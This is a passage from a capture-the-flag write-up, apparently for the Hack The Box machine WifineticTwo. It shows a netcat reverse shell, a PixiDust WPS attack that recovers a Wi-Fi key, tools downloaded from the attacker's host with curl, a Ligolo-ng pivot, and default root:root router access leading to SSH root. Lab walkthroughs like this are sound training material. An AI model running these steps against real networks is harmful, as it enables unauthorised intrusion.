[+] Spawning Reverse Shell...
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.139] from (UNKNOWN) [10.129.226.128] 58422
```

## Stabilizing Shell

Basic steps to make the shell usable.

- [https://github.com/0xsyr0/OSCP?tab=readme-ov-file#upgrading-shells](https://github.com/0xsyr0/OSCP?tab=readme-ov-file#upgrading-shells)

```c
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@attica01:/opt/PLC/OpenPLC_v3/webserver# ^Z
zsh: suspended  nc -lnvp 4444
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 4444

root@attica01:/opt/PLC/OpenPLC_v3/webserver# 
root@attica01:/opt/PLC/OpenPLC_v3/webserver# export XTERM=xterm
root@attica01:/opt/PLC/OpenPLC_v3/webserver#
```
- Also you could use [pwncat-cs](https://github.com/calebstewart/pwncat?tab=readme-ov-file) for more stable shell with `pwncat-cs -lp 4444` command.

## user.txt

```c
root@attica01:/root# cat user.txt
52d9df8a821041bcac0033e9e6b81a76
```

## Enumeration

Since the theme of the box was about `wireless networks` we started checking the available `interfaces`.

```c
root@attica01:/opt/PLC/OpenPLC_v3/webserver# iwconfig
wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on
          
lo        no wireless extensions.

eth0      no wireless extensions.
```

We took a closer look on interface `wlan0` to figure out that `WPS` was enabled.

```c
root@attica01:/opt/PLC/OpenPLC_v3/webserver# iw wlan0 scan
BSS 02:00:00:00:01:00(on wlan0)
        last seen: 695.724s [boottime]
        TSF: 1710620686411195 usec (19798d, 20:24:46)
        freq: 2412
        beacon interval: 100 TUs
        capability: ESS Privacy ShortSlotTime (0x0411)
        signal: -30.00 dBm
        last seen: 0 ms ago
        Information elements from Probe Response frame:
        SSID: plcrouter
        Supported rates: 1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0 
        DS Parameter set: channel 1
        ERP: Barker_Preamble_Mode
        Extended supported rates: 24.0 36.0 48.0 54.0 
        RSN:     * Version: 1
                 * Group cipher: CCMP
                 * Pairwise ciphers: CCMP
                 * Authentication suites: PSK
                 * Capabilities: 1-PTKSA-RC 1-GTKSA-RC (0x0000)
        Supported operating classes:
                 * current operating class: 81
        Extended capabilities:
                 * Extended Channel Switching
                 * SSID List
                 * Operating Mode Notification
        WPS:     * Version: 1.0
                 * Wi-Fi Protected Setup State: 2 (Configured)
                 * Response Type: 3 (AP)
                 * UUID: 572cf82f-c957-5653-9b16-b5cfb298abf1
                 * Manufacturer:  
                 * Model:  
                 * Model Number:  
                 * Serial Number:  
                 * Primary Device Type: 0-00000000-0
                 * Device name:  
                 * Config methods: Label, Display, Keypad
                 * Version2: 2.0
```

## PixiDust WPS Attack

Knowing that `WPS` can be easily attacked with `PixiDust`, `yeeb` pointed out `OneShot` to get a quick hit on it.

- [https://github.com/kimocoder/OneShot](https://github.com/kimocoder/OneShot)

```c
root@attica01:/dev/shm# curl http://10.10.14.139/oneshot.py -o oneshot.py
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 53267  100 53267    0     0   133k      0 --:--:-- --:--:-- --:--:--  133k
```

Starting `OneShot` on interface `wlan0` gathered a `Pre-Shared Key` after just a few seconds.

```c
root@attica01:/dev/shm# python3 oneshot.py -i wlan0
[*] Running wpa_supplicant…
[*] BSSID not specified (--bssid) — scanning for available networks
Networks list:
#    BSSID              ESSID                     Sec.     PWR  WSC device name             WSC model
1)   02:00:00:00:01:00  plcrouter                 WPA2     -30                                 
Select target (press Enter to refresh): 1
[*] Running wpa_supplicant…
[*] Trying PIN '12345670'…
[*] Scanning…
[*] Authenticating…
[+] Authenticated
[*] Associating with AP…
[+] Associated with 02:00:00:00:01:00 (ESSID: plcrouter)
[*] Received Identity Request
[*] Sending Identity Response…
[*] Received WPS Message M1
[*] Sending WPS Message M2…
[*] Received WPS Message M3
[*] Sending WPS Message M4…
[*] Received WPS Message M5
[+] The first half of the PIN is valid
[*] Sending WPS Message M6…
[*] Received WPS Message M7
[+] WPS PIN: '12345670'
[+] WPA PSK: 'NoWWEDoKnowWhaTisReal123!'
[+] AP SSID: 'plcrouter'
```

| Password                  |
| ------------------------- |
| NoWWEDoKnowWhaTisReal123! |

## Gaining Network Access

We needed to create a `wpa_supplicant.conf` in `/etc/` to setup a working `wireless connection` and then to get an `IP address` assigned.

```c
root@attica01:/etc/wpa_supplicant# ip link set wlan0 up
```

```c
root@attica01:/etc/wpa_supplicant# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0@if18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:fc:91:0c brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.0.3.2/24 brd 10.0.3.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet 10.0.3.52/24 metric 100 brd 10.0.3.255 scope global secondary dynamic eth0
       valid_lft 2671sec preferred_lft 2671sec
    inet6 fe80::216:3eff:fefc:910c/64 scope link 
       valid_lft forever preferred_lft forever
5: wlan0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc mq state DOWN group default qlen 1000
    link/ether 02:00:00:00:02:00 brd ff:ff:ff:ff:ff:ff
```

```c
root@attica01:/etc# echo 'ctrl_interface=DIR=/var/run/wpa_supplicant GROUP=netdev
update_config=1

network={
    ssid="plcrouter"
    psk="NoWWEDoKnowWhaTisReal123!"
}' > /etc/wpa_supplicant.conf
```

```c
root@attica01:/etc# wpa_supplicant -B -D wext -i wlan0 -c /etc/wpa_supplicant.conf
Successfully initialized wpa_supplicant
Failed to open config file '/etc/wpa_supplicant/.conf', error: No such file or directory
Failed to read or parse configuration '/etc/wpa_supplicant/.conf'.
: CTRL-EVENT-DSCP-POLICY clear_all
<ant -B -D wext -i wlan0 -c /etc/wpa_supplicant.conf
Successfully initialized wpa_supplicant
rfkill: Cannot open RFKILL control device
ioctl[SIOCSIWENCODEEXT]: Invalid argument
ioctl[SIOCSIWENCODEEXT]: Invalid argument
ctrl_iface exists and seems to be in use - cannot override it
Delete '/var/run/wpa_supplicant/wlan0' manually if it is not used anymore
Failed to initialize control interface 'DIR=/var/run/wpa_supplicant GROUP=netdev'.
You may have another wpa_supplicant process already running or the file was
left by an unclean termination of wpa_supplicant in which case you will need
to manually remove this file before starting wpa_supplicant again.

wlan0: CTRL-EVENT-DSCP-POLICY clear_all
wlan0: CTRL-EVENT-DSCP-POLICY clear_all
```

After setting up the `wireless configuration` we used `dhclient` to check if we got an `IP address` assigned and indeed we could access `192.168.1.0/24` by forwarding traffic to it.

```c
root@attica01:/etc# dhclient -v
Internet Systems Consortium DHCP Client 4.4.1
Copyright 2004-2018 Internet Systems Consortium.
All rights reserved.
For info, please visit https://www.isc.org/software/dhcp/

Listening on LPF/wlan0/02:00:00:00:02:00
Sending on   LPF/wlan0/02:00:00:00:02:00
Listening on LPF/eth0/00:16:3e:fc:91:0c
Sending on   LPF/eth0/00:16:3e:fc:91:0c
Sending on   Socket/fallback
DHCPDISCOVER on wlan0 to 255.255.255.255 port 67 interval 3 (xid=0xab85145b)
DHCPDISCOVER on eth0 to 255.255.255.255 port 67 interval 3 (xid=0xd7844c6f)
DHCPOFFER of 10.0.3.52 from 10.0.3.1
DHCPREQUEST for 10.0.3.52 on eth0 to 255.255.255.255 port 67 (xid=0x6f4c84d7)
DHCPACK of 10.0.3.52 from 10.0.3.1 (xid=0xd7844c6f)
RTNETLINK answers: File exists
bound to 10.0.3.52 -- renewal in 1786 seconds.
```

```c
root@attica01:/etc# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0@if18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:fc:91:0c brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.0.3.2/24 brd 10.0.3.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet 10.0.3.52/24 metric 100 brd 10.0.3.255 scope global secondary dynamic eth0
       valid_lft 2388sec preferred_lft 2388sec
    inet6 fe80::216:3eff:fefc:910c/64 scope link 
       valid_lft forever preferred_lft forever
5: wlan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 02:00:00:00:02:00 brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.84/24 brd 192.168.1.255 scope global dynamic wlan0
       valid_lft 43181sec preferred_lft 43181sec
    inet6 fe80::ff:fe00:200/64 scope link 
       valid_lft forever preferred_lft forever
```

## Port Forwarding

We used `Ligolo-ng` to forward all traffic to the network `192.168.1.0/24`.

- [https://github.com/nicocha30/ligolo-ng/releases](https://github.com/nicocha30/ligolo-ng/releases)

```c
┌──(kali㉿kali)-[~]
└─$ sudo ip tuntap add user $(whoami) mode tun ligolo
[sudo] password for kali:
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo ip link set ligolo up
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/WifineticTwo/serve]
└─$ ./proxy -laddr 10.10.14.139:443 -selfcert
WARN[0000] Using automatically generated self-signed certificates (Not recommended) 
INFO[0000] Listening on 10.10.14.139:443                
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _                                
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/                                
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /                                 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /                                  
        /____/                          /____/                                   

  Made in France ♥            by @Nicocha30!                                     

ligolo-ng »
```

```c
root@attica01:/dev/shm# curl http://10.10.14.139/agent -o agent
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 4572k  100 4572k    0     0  3785k      0  0:00:01  0:00:01 --:--:-- 3787k
```

```c
root@attica01:/dev/shm# ./agent -connect 10.10.14.139:443 -ignore-cert
WARN[0000] warning, certificate validation disabled     
INFO[0000] Connection established                        addr="10.10.14.139:443"
```

```c
ligolo-ng » INFO[0158] Agent joined.                                 name=root@attica01 remote="10.129.226.128:37626"
ligolo-ng » 
ligolo-ng » session
? Specify a session : 1 - #1 - root@attica01 - 10.129.226.128:37626
[Agent : root@attica01] » ifconfig
┌────────────────────────────────────┐
│ Interface 0                        │
├──────────────┬─────────────────────┤
│ Name         │ lo                  │
│ Hardware MAC │                     │
│ MTU          │ 65536               │
│ Flags        │ up|loopback|running │
│ IPv4 Address │ 127.0.0.1/8         │
│ IPv6 Address │ ::1/128             │
└──────────────┴─────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ eth0                           │
│ Hardware MAC │ 00:16:3e:fc:91:0c              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 10.0.3.2/24                    │
│ IPv4 Address │ 10.0.3.52/24                   │
│ IPv6 Address │ fe80::216:3eff:fefc:910c/64    │
└──────────────┴────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 2                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ wlan0                          │
│ Hardware MAC │ 02:00:00:00:02:00              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 192.168.1.84/24                │
│ IPv6 Address │ fe80::ff:fe00:200/64           │
└──────────────┴────────────────────────────────┘
[Agent : root@attica01] »
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo ip route add 192.168.1.0/24 dev ligolo
```

```c
[Agent : root@attica01] » start
[Agent : root@attica01] » INFO[0259] Starting tunnel to root@attica01
```

## Enumeration of the Wi-Fi Network

Accessing `192.168.1.1` via `HTTP` showed another `login page`.

- [http://192.168.1.1/cgi-bin/luci/](http://192.168.1.1/cgi-bin/luci/)

We could login by using just `root:root` and got welcomed with an `OpenWRT` dashboard.

| Password | Password |
| -------- | -------- |
| root     | root     |



## Privilege Escalation

Since `OpenWRT` get's configured via the `dashboard`, the plan was just to add our `SSH Keys` and access the box on port `22/TCP` via the `management network`.




```c
┌──(kali㉿kali)-[~]
└─$ ssh-keygen 
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/kali/.ssh/id_ed25519): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_ed25519
Your public key has been saved in /home/kali/.ssh/id_ed25519.pub
The key fingerprint is:
SHA256:efYY90TJC0ZsB4n6wQFz18rxreDNy6VnIoMeCJsHBUA kali@kali
The key's randomart image is:
+--[ED25519 256]--+
|   .E.. o..o++   |
|       . ooo=.o. |
|        .o +o=+. |
|       ...o.+o...|
|      o S.+o.+o. |
|       = +.=.o+ .|
|      o o o....+ |
|       .  ..o = o|
|         ..  o + |
+----[SHA256]-----+
```



Which just worked quite well and provided `yeeb` his first `root blood` on `Hack The Box` and so our team. Congratulations on that!

```c
┌──(kali㉿kali)-[~]
└─$ ssh -i ~/.ssh/id_ed25519 root@192.168.1.1   
The authenticity of host '192.168.1.1 (192.168.1.1)' can't be established.
ED25519 key fingerprint is SHA256:ZcoOrJ2dytSfHYNwN2vcg6OsZjATPopYMLPVYhczadM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.1' (ED25519) to the list of known hosts.


BusyBox v1.36.1 (2023-11-14 13:38:11 UTC) built-in shell (ash)

  _______                     ________        __
 |       |.-----.-----.-----.|  |  |  |.----.|  |_
 |   -   ||  _  |  -__|     ||  |  |  ||   _||   _|
 |_______||   __|_____|__|__||________||__|  |____|
          |__| W I R E L E S S   F R E E D O M
 -----------------------------------------------------
 OpenWrt 23.05.2, r23630-842932a63d
 -----------------------------------------------------
=== WARNING! =====================================
There is no root password defined on this device!
Use the "passwd" command to set up a new password
in order to prevent unauthorized SSH logins.
--------------------------------------------------
root@ap:~#
```

## root.txt

```c
root@ap:~# cat root.txt
88b57254eb23d6c6a20f371b55e8b72c
```
